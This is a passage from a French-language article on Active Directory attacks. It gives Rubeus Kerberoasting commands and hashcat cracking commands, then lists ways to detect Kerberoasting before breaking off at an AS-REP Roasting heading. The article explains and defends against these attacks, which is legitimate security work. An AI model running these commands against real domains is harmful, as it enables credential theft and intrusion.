La recherche d'attributs `AdminCount=1` identifie les comptes membres de groupes privilégiés, représentant des cibles de haute valeur. Ces comptes offrent souvent des privilèges élevés une fois compromis.

**Phase 2 : Extraction et optimisation des tickets**

Les techniques modernes utilisent des outils sophistiqués comme Rubeus pour automatiser l'extraction :

```powershell
# Kerberoasting standard avec Rubeus
Rubeus.exe kerberoast /outfile:hashes.txt

# Kerberoasting ciblé avec filtres avancés
Rubeus.exe kerberoast /spn:MSSQLSvc/sql.domain.com /tgtdeleg

# Force du chiffrement RC4 pour tous les comptes
Rubeus.exe kerberoast /tgtdeleg /outfile:rc4hashes.txt
```

Le paramètre `/tgtdeleg` force l'utilisation du chiffrement RC4 même pour les comptes configurés avec AES, réduisant significativement la complexité du craquage.

**Phase 3 : Optimisation du craquage hors ligne**

Les hashes extraits subissent un craquage optimisé utilisant des techniques avancées:

```bash
# Craquage avec Hashcat et règles personnalisées
hashcat -m 13100 -r best64.rule hashes.txt rockyou.txt

# Attaque par masque pour les politiques de mots de passe connues
hashcat -m 13100 -a 3 hashes.txt ?u?l?l?l?l?l?l?d?d

# Utilisation de GPU cloud pour l'accélération
hashcat -m 13100 --force -O -w 4 hashes.txt wordlist.txt
```

**Détection moderne du Kerberoasting :**

Les techniques de détection 2025 se concentrent sur l'analyse comportementale:

* **Analyse des patterns temporels** : Détection de rafales de demandes TGS depuis un seul endpoint
    
* **Surveillance des types de chiffrement** : Alertes sur les demandes RC4 anormales (Event ID 4769)
    
* **Analyse des comptes ciblés** : Monitoring des demandes pour des comptes de service rarement utilisés
    
* **Corrélation multi-événements** : Analyse des séquences AS-REQ → TGS-REQ inhabituelles
    

### ASREPRoasting : Exploitation des Pré-authentifications Désactivées

![What is AS-REP Roasting? | Semperis Identity Attack Catalog](https://d27a6xpc502mz5.cloudfront.net/wp-content/uploads/images-screenshots/blog/as-rep-roasting/Screenshot_ASREPROAST0-1024x524.png align="left")
